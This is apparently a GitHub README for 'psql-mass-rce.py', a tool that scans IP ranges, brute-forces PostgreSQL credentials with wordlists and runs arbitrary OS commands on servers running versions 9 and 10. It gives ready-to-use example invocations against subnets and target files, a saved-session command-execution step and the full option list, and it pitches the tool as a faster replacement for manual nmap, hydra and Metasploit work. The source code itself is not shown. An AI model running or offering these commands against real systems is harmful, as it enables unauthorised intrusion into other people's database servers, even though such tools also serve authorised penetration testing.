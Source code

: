 Conviniently invoke RCE on PostgreSQL servers in network
=======

How does it work?
--------
Few examples to give you an idea:   

| Example | Comment |
|---------|---------|
| `./psql-mass-rce.py 10.1.1.10 192.168.0.100-150 --port 5433` | Accepts any number of any targets |
| `./psql-mass-rce.py 10.1.1.100/31 ./psql.gnmap --passfile rockyou.txt` | Accepts IP subnets and .gnmap files |
| `./psql-mass-rce.py -iL ./targets.txt --userfile users.txt` | Load IP[:port] from local file (nmap-alike) |


Scripts does the following:
1. Checks if port is open
2. Bruteforces credentials (using built-in dictionary or user files)
3. Determines PostgreSQL version and OS
4. Executes RCE if database user has enough rights

Live hosts with good credentials are saved to session file. After reconnaissance you may want to run RCE on those:   
`./psql-mass-rce.py --saved --command 'whoami'`   


Installation:
--------
`pip3 install -r requirements.txt`


Which PostgreSQL versions can give me RCE?
--------
PostgreSQL verions 9 and 10 (version 8 is in development).


Any zero-days inside?
--------
Not yet. [Technique](http://dsrbr.blogspot.ru/2015/04/os-command-execution-in-postgresql-93.html) was published almost 3 years ago.


Will it save my time?
--------
Definately yes.

| Before 	| After 	|
|--------	|-------	|
| 1. run nmap for port scanning<br/>2. run patator/hydra to bruteforce credentials<br/>3. run psql binary to connect and check version<br/>4. copy-paste payloads, or launch MSF `postgres_payload` manually at each host.     | ./psql-mass-rce.py 10.1.1.0/24 |


Full help:
--------
```
psql-mass-rce v0.1

Usage: psql-mass-rce.py targets [--userfile USERFILE] [--passfile PASSFILE]
               [--command COMMAND] [--port PORT] [--saved]

Necessary arguments:
  targets              Accepts any number of these: IP, network, or .gnmap file

Optional arguments:
  -h, --help           show this help message and exit
  --userfile USERFILE  File with a list of users
  --passfile PASSFILE  File with a list of passwords
  --command COMMAND    Command to execute on a target machine
  --port PORT          Port to connect
  --saved              Work on targets from saved session file
```
